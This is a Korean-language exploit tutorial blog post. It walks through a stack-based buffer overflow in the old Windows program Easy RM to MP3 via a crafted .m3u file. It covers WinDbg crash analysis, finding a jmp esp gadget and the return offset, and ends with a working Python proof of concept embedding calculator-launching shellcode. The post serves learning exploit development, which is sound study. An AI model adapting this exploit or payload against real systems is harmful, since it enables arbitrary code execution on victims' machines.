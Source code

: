 ```yaml
---
layout: post
title: windows exploit tutorial - Easy RM to MP3
---
```



윈도우 폰.                      


0. Info
----------
corelen 팀의 windows exploit tutorial 문서 part 1 인 Easy RM to MP3프로그램의 stack based overflow 취약점을 이용해 exploit을 해보겠다. os 환경은 window xp sp3 en 에서 진행 하였다. debugger는 windbg를 이용하였다.

![](https://lh4.googleusercontent.com/ZIcdxR1-jprVAu9b47F5fQqiW26GXSSQZLlqFlK0pxXVM_u7v2c9nLy3vKhaixVYB7L2aJncbuzAVCruYf2fh8bIirmCMQtissCqZEqfAnCWLSNsK01wvP30v8bPZ-txkncxH3I2)

  

exploit db에 검색하면 해당 취약점에 대한 정보와 당시 프로그램을 구할 수 있다. 내가 공부한 내용은 2009-07-16 Crazy_Hacker가 발견한 버그이다.

  

1. Vulnerability

----------

.m3u 포멧의 파일을 열 때 stack based overflow 취약점이 발생한다.

  

![](https://lh3.googleusercontent.com/cdQ3kcN9Jl-xJzLhVlyrhP3TcjbHh1ulzxnkeb-MwzUBkEJm5iyXcniDZIDNPZy2ZGi94ZBi8vR0noamKSlqwozzskZPybn-C310bTc295iiqjWiuzMBgResxCjJ4tTp2k6Ogrmr)

  

파이썬을 이용해 “A”를 30000개를 적어준다.

  

이를 Easy RM to MP3로 열게 되면

  

![](https://lh4.googleusercontent.com/nqYshKyZjKSXE3-97ciq9x7YerEG0wVglCVvkhx5v6Ml06MGY9ajkHTiozJUqybWKIU0hMHyrzwKxXooDiHlgKzasWZWfCxrUzmT4_gLUuXIa7Phu3pmBU_HI2vlnjel2AP4Rd2i)

  

크래시가 발생되고 비정상적으로 프로그램이 종료된다.

  

2. exploit

----------

이제 좀 더 정확한 정보를 얻기 위해서 windbg를 이용해서 eip가 덮혔는지 확인 해보겠다. eip가 덮히면 해커의 시나리오 대로 프로그램을 조작할 수 있기 때문에 exploit 가능성이 높아진다.

  

일단 windbg를 post-mortem 으로 등록해야 한다. 이 기능은 자동적으로 프로그램이 crash가 발생하여 비정상적으로 종료가 되면 windbg를 실행시켜 그 정보를 바로 확인 할 수 있게 해준다.

  

windbg가 설치 되어 있는 폴더 에 들어가서 windbg.exe -I 로 설정할 수 있다.

![](https://lh3.googleusercontent.com/g41REbmXii4w88afMS04xZ12VCdaX7d_-g9VAIOGRzUtdWQzqGPuYD4Pyc1W9RYbaDVhxnq5Ewlax2j7Xc0gCM4MuZXZSo1km32fqz124VRioXRcCMsHl2_HEw02OGVGSwJpIeba)

![](https://lh4.googleusercontent.com/dXVssplaFXF1iL07tlUmr4MXaLZEUUfIXWdlU1HMUmfglyzRelWqpS19ode9gwlwSuZT1kPc6DOTanqXZRhG_HXUpBCNQnQT6KCWWeNZYqIDFRdZ_9W6ULLCI3HDqZAqAQDDZbgN)

  

성공적으로 postmortem 으로 등록 되었다.

  
  

다시 한번 carsh.m3u 파일을 실행해보겠다.

  

![](https://lh3.googleusercontent.com/AY9E4YGM-Qs8WyJxUqT_HsYdevolpdenQo_y6qT2sh16bHHHo6UDo1D5Dpd_2pHHa-VqWEAVaFO_4ZB_YOyknWgfzs0tsV8F4CfNVo4n6OPQUZ0kb-4euZkXqWG8Aal_94J2OQK7)

  

crash가 나면서 자동적으로 windbg가 실행되고 레지스터 사이를 보니 eip가 AAAA 41414141로 바뀌어 있다. 즉, stack based overflow를 이용해서 ret을 조작해 eip를 조작할 수 있고, 해커의 시나리오 대로 프로그램을 조작할 수 있게 된다.

  

aslr이 적용 되어 있지 않기 때문에 쉘코드를 스택에 넣고 뛰면 되겠지만 주소에 \x00 바이트를 포함 하고 있어 exploit 할 수 없다.

  

다른 방법을 모색해야 하는데, 바로 jmp esp 가젯을 이용하는 것 이다.

  

(pwnable.kr echo1문제도 jmp esp 가젯을 이용했던 것 같다. 관련 풀이를 보면 왜 이 가젯을 이용하는지 알게 될 거다.)

  

간단하게 설명하자면, 함수 에필로그 leave ; ret ; 에서 ret이 실행 되기 전에 mov esp, ebp 구문이 있다.

  

esp를 ebp로 데려오는데, 그러면 esp는 ret뒤를 가리키게 된다. eip를 jmp esp 가젯을 실행 하면, ret뒤로 뛰게 되는 거다.

  

그러면 payload에서 ret뒤에 shellcode를 위치시키면 shellcode를 실행 할 수 있게 될 것 이다.

  

“jmp esp” 가젯은 .dll 파일에서 찾을 수 있다. .dll파일은 windbg가 로드 될 때 상단에 정보가 보인다.

  

![](https://lh5.googleusercontent.com/tEaaI_QEZnPHHRq8YbPIAc5inj3JjG418e4L8B0iRqsryTLpmKUP0HjsHSJCj1FXxH72H3fGe5ncS-MOfbr384nHOgkHhA05R2ZtBCqtV2RxKBGt_kLTQHNi_Qla_56KPTvqLm0A)

  

system32 에 있는 .dll에서 가젯을 구하면 해당 pc에선 poc가 작동하겠지만 다른 곳에선 poc가 작동 안 할 수 있다. 따라서 프로그램이 자체적으로 가지고 있는 .dll에서 가젯을 구하도록 하겠다.

  

다시 windbg를 실행하고 멀쩡한 easy rm to mp3를 attach 한다. 사용할 .dll은

  

01c80000 0214d000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll

  

를 사용 할 것이다.

  

![](https://lh5.googleusercontent.com/gChFTiFAoT820hGeoBEtQkVao23IOdbnmNpIgxKkMUJ098UmU36AloD27GqOdCx04PqzsZFMlz0NAGSMA8_LgjOIcnxIVyWvZlA74mAfkuR1GsAMmQJ_Xw0BZ9cg6ojZkBYSHxV7)

  

일단 “jmp esp” 의 opcode를 찾아야 한다.

  

![](https://lh4.googleusercontent.com/dlVn30KEQVtJ7BsTCUJAV8_sXM22b5b-Y6hKthMcGiJKY_-4uvhe6HXMjKcOLkFgY_G1hawGgjiQXXyfBjB96TlmzXCZKONIuaIagSC-WreA8lS8fkoS6aa-qOu59I-NfC7QiBU6)

a(assemble) 를 적고

  

jmp esp를 적는다.

  

그럼 7c901210에 jmp esp가 있는거다.

  

![](https://lh5.googleusercontent.com/yI1mZLaDrLHDIiK3KrQ9naY0rlwqND_P8drLnBEtBMvjXg-lutFezpSUqj1kaQ7artp66IDqcc71GIxGkIvAI0YZzJAFVF7M9j772dcENHHmUrYkS6mim5DTk6sejuHRUO-3CxXJ)

  

ff e4가 jmp esp의 opcode인 것을 확인 할 수 있다.( 사실 pwntool로 구하는 걸 블로그에 올렸었던 것 같지만.. 이 문서에서는 이렇게 소개한다.)

  

이제 dll에서 ff e4를 찾으면 된다.

  

01c80000 0214d000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll

  

이 dll에서 01c80000 0214d000이게 그 영역인데,

  

![](https://lh3.googleusercontent.com/PZFXbEHTMbc8J_OKgS2oyJFDdzgHvwok_Z7hwbgsfvjKIvTYGkmCau6jSZ7MJfdRRM-GALuJbcjVkzEwgCdV8tJhZ-1VkrwIkXt1sGJd2qTy7GcKuhNv1QNurZdBZSoa5pYCEkRy)

  

이렇게 search 할 수 있다. ff e4의 위치는 0x1e3f23a 이다.

  

생각해보니 ret의 위치를 안 찾았다.

  

메타스플로잇의 tool인 pattern_create.rb, pattern_offset을 이용해서 ret의 위치, offset을 쉽게 구할 수 있다.

  

![](https://lh4.googleusercontent.com/OafX36Bi6K5E7ldKH8Ix0dEznhmcdA7VvLABLIo6YZCmOcrn6wUIXfbqbg4kAZOmrM0KVhK0ciIAap-3XFzivH9LAfr_BUfY7ch2-cXKh_zaslPGK5BVj37fDyLbkWDLzqi4nbx_)

  

이렇게 30000개의 패턴을 뽑은 뒤,

  

.m3u파일에 넣는다.

  

![](https://lh4.googleusercontent.com/OeXyCSv6MlFMnB_9PzBCqegdEiG2MTyLlJsioLYB_PLkFury0BND38dsu4vY6nge0ZlnNAdRJQl1QoxrhL9nhKF3gAgvGLRmJwRFwhkn1cl5nzC2iH8Jyb18gmLdKUA62lnxLqZa)

  

생성 된 파일을 실행시켜 crash를 낸다.

  

windbg가 실행되면서 eip가 조작 되었을거다.

  

![](https://lh5.googleusercontent.com/O7teTfnP8HUoUCabBvasigwyTNKOAogTVz1L5OsD8293BvNn0MPXDv2GuMFxqrLcM5SJzcL8bhglGoY8LeCkswcORL4_uXxPnBFiMsVi397YR0-pA_rYKuFA3aeEwbWF6W21c-BO)

  

eip 0x48386b48이 적혀있다.

  

![](https://lh3.googleusercontent.com/CmM-1elm22MagOn0KsqFpBh358L8_-J-PS8UVL8AihtgdS-CmIF0kaUvn9qFPbpSJS-8Eiiv1S8rm3VO_etPMifNnjTTpnSxQOuxjER7oG-m_HMlGgi7QTDjF7s4Fz_QcERf4wUf)

  

이렇게 ./pattern_offset.rb [eip] [create 한 byte길이] 를 실행하면

  

![](https://lh4.googleusercontent.com/StDB55DtoRqr1RiD9vsPTz1nDWIykXaiWuU_u9J7WceRNMPuQc4evtnHmik9Hm7ifQKhlYD_395AifbZBaJNGfvsoJ6egaRwsz_RhB7GPR7JFMJvR_z5jVWzEeQeC3lGdaaeiOc9)

5784 부분과 26064부분이라고 나오는데 우리는 20000이상이니깐 26064부터 4바이트가 ret위치라는 것을 알 수 있다.

  

이제 바로 poc를 작성 해보겠다.

  

3. poc

----------

  ```python
  f =  open("C:\\Documents and Settings\\Administrator\\Desktop\\crash.m3u", "w")

gadget =  "\x3a\xf2\xd2\x01"

shellcode =  "\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"  +"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"  +"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"  +"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"  +"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"  +"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"  +"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"  +"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"  +"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"  +"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"  +"\x7f\xe8\x7b\xca"

payload =  "A"*26064

payload += gadget

payload +=  "\x90"*50

payload += shellcode

payload +=  "\x90"*50

f.write(payload)

f.close()
```


  

사용한 쉘코드는 계산기를 띄우는 쉘코드이다.

  

생성된 crash.m3u를 실행 하게 되면

![](https://lh6.googleusercontent.com/SDdZuu6i1m-iaNLPukrxwUpBIiLEWNNDuB2s_40dNdH7yQOhRVuk7m_-x5a1xjC5EoBaV_1X80fS_YhFBrlGTYorv2egOzZAvJIkktoZcT0063TigeOGqMzPZUSj9EXBue38m7AJ)

  

성공적으로 계산기가 실행되었다.
